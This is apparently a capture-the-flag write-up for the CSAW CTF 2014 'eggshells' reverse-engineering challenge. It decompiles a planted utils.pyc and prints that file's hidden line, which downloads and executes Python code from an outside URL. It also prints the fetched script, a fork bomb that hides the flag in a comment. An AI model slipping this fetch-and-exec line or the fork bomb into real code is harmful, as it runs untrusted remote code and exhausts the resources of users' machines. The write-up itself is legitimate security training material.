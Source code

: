 # CSAW CTF 2014: eggshells

**Category:** Reverse Engineering
**Points:** 100
**Description:**

> I trust people on the internet all the time, do you?
>
> Written by ColdHeat
>
> [eggshells-master.zip](eggshells-master.zip)

## Write-up

Let’s unzip [the provided zip file](eggshells-master.zip):

```bash
$ unzip eggshells-master.zip
```

This creates a directory `eggshells-master` that contains a bunch of Python files. One compiled Python file, `utils.pyc`, stands out. Let’s decompile it using [`uncompyle2`](https://github.com/wibiti/uncompyle2):

```bash
$ uncompyle2 utils.pyc
# 2014.09.22 10:53:48 CEST
#Embedded file name: /Users/kchung/Desktop/CSAW Quals 2014/rev100/utils.py
exec __import__('urllib2').urlopen('http://kchung.co/lol.py').read()
+++ okay decompyling utils.pyc
# decompiled 1 files: 1 okay, 0 failed, 0 verify failed
# 2014.09.22 10:53:48 CEST
```

That URL looks interesting.

```bash
$ curl 'http://kchung.co/lol.py'
import os
while True:
    try:
        os.fork()
    except:
        os.system('start')
# flag{trust_is_risky}
```

The flag is `trust_is_risky`.

## Other write-ups

* none yet
